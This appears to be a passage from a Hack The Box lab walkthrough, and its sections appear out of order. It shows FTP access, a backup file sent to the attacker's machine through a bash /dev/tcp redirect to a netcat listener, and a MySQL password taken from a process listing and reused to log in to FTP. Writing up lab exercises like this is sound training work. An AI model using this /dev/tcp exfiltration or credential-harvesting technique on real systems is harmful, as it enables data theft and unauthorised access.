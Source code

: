 ```
226 Directory send OK.
ftp> get backup.tar
local: backup.tar remote: backup.tar
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for backup.tar (20480 bytes).
226 Transfer complete.
20480 bytes received in 0.00 secs (11.7587 MB/s)

```

Let's download `backup.tar` to our local machine to check it.
```
monitoring@watcher:~$ cat backup.tar >& /dev/tcp/10.10.14.5/1337 0>&1

┌──(wither㉿localhost)-[~/Templates/htb-labs/Synacktiv]
└─$ nc -lnvp 1337 > backup.tar       
listening on [any] 1337 ...
connect to [10.10.14.5] from (UNKNOWN) [10.13.37.13] 56794

```
There is a `logs.txt` in there.We can find the `mysql` credit of `elonmusk`
```
root     18153  0.0  0.3   3992  3216 ?        Ss+  20:37   0:00 /bin/bash
elonmusk 18480  0.0  0.1 275381 3462  ?        Ss+  20:44   0:00 mysql -u elonmusk -p 28fL+PvkSl0P5+zhkvPLCw appli
elonmusk 18481 94.0  4.9 2746800 49764 ?       Ssl  20:44   0:00 /usr/bin/java -jar /home/elonmusk/monitoringClient.jar 192.168.1.3
```

Let's try it to enter the `ftp` service
```
monitoring@watcher:~$ ftp 172.22.1.53
Connected to 172.22.1.53.
220 (vsFTPd 3.0.3)
Name (172.22.1.53:monitoring): elonmusk
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 1001     1001         4096 Feb 24  2021 bob
drwxr-xr-x    2 1000     1000         4096 Mar 05  2021 elonmusk

ftp> cd bob
250 Directory successfully changed.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 1001     1001          184 Feb 24  2021 readme.txt

ftp> cd elon
550 Failed to change directory.
ftp> cd elonmusk
250 Directory successfully changed.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 1000     1000      2280632 Mar 05  2021 hackfail-authenticator.apk
-rw-r--r--    1 1000     1000         4141 Feb 24  2021 hackfail.ovpn
```
